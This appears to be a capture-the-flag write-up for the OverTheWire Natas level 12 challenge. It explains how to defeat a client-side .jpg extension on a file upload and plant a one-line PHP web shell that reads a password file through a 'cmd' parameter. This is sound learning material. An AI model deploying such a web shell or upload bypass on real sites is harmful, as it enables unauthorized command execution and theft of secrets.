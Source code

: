 ```yaml
---
layout: post
title:  "Natas Level 11 → Level 12"
date:   2021-05-26 15:37:21
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Extension tension
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas12 website allows us to select and upload an image, and view the page source. Since the source is now starting to get a bit longer, I'll highlight the pertinent line(s) below.

```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
```

Here we see that whatever we upload will be assigned a random name and have the .jpg extension appended to it. The intention here is to secure the upload form by appending the jpg extension of anything uploaded. This should prevent a malicious user from uploading a shell script and executing it from the uploads directory, since jpg is non-executable. Since this change is done on the client side, it can bypassed with ease.


```php
<? passthru($_GET["cmd"]); ?>
```

That's it. I'll refer this script as shell.php. You can name it whatever you like.

Before we upload this script, we need to alter the client-side code to deal with the appending of .jpg to our upload.

Open the web developer tools for your browser and use the inspector to quickly locate the upload section of the code. You should see something similar to the following:

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000">
<input type="hidden" name="filename" value="upzknql2yq.jpg">
```

The last line is the one we're looking for. The name of the file, **upzknql2yq** will be different for you.  This name was generated by the genRandomString() function we saw in the first script. Change the extension from .jpg to .php using the developer tools. Do not refresh the page or use the browser navigation buttons, or you'll need to change the extension once again.

With the extension now changed, click on the browse button, select shell.php and then click upload. 

You shoud see a message similar to the following:
```
The file upload/zidcnm44f9.php has been uploaded
```

Make certain that the uploaded file ends in .php. If not, navigate back and re-edit the page source using the developer tools. Once you have the confirmation that the file uploaded with the .php extension, copy the link to the file location. Do not click the link.

Paste the link into the browser and append the following to the URL:
```
?cmd=cat /etc/natas_webpass/natas13
```

This will display the password to the next level in the browser.